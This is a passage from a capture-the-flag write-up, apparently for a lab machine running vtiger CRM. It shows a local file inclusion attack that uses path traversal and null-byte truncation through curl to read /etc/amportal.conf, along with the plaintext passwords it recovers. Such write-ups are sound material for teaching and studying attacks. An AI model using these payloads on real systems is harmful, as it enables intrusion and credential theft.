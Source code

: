 We can see a view exploits, to narrow this down we can use the machine hint, which says LFI, or we can read each exploit and confirm if the vulnerability exist, in this case if we read the exploit the following perl exploit:

```shell
❯ searchsploit -x php/webapps/37637.pl
```

There's a line that we can use to confirm if this file exists:

```perl
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

We can use curl to confirm that this file exists:

```shell
❯ curl -Isk https://10.10.10.7/vtigercrm/graph.php
HTTP/1.1 200 OK
Date: Wed, 22 Dec 2021 23:12:58 GMT
Server: Apache/2.2.3 (CentOS)
X-Powered-By: PHP/5.1.6
Connection: close
Content-Type: text/html; charset=UTF-8
```

We can confirm the POC with curl:

```shell
❯ curl -vsk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action"
*   Trying 10.10.10.7:443...
* Connected to 10.10.10.7 (10.10.10.7) port 443 (#0)
<..SNIP..>
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
<..SNIP..>
```

Because there is no filtering of '../' and I can pass percent %00 to truncate the text, the current_language option leads to a file. The percent `%00` indicates that PHP is adding the .php extension to the input before including it. Adding percent `%00` to an outdated PHP instance would truncate the string, causing the `.php` to be disregarded.

It seems that we have some passwords from the output above, we can filter this down:

```shell
❯ curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action" | grep -E 'PASS=|PASSWORD='
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
#FOPPASSWORD=passw0rd
FOPPASSWORD=jEhdIekWmdjE
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
```
